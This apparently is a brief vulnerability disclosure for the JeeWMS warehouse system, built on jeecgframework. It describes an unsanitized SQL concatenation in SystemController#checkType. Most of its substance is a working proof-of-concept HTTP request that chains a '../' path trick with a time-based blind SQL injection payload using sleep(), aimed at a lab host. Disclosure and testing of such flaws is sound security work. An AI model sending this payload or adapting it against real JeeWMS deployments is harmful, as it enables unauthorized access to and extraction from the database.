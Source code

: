 `org.jeecgframework.web.system.controller.core.SystemController#checkType`

In the `checkType` method, the controllable parameters from `request` are directly concatenated into the `SQL` query statement

![image-20250725112847195](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250725112847195.png?imageSlim)

Prove`POC`

```http
GET /jeewms/wmsApiController.do/../systemController.do?checkType&param=1'+OR+sleep(0.02)%3D0+AND+'1'='1&code=1&typeGroupCode=1 HTTP/1.1
Host: 192.168.21.128:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

![image-20250725112949324](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250725112949324.png?imageSlim)

![image-20250725113015630](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250725113015630.png?imageSlim)

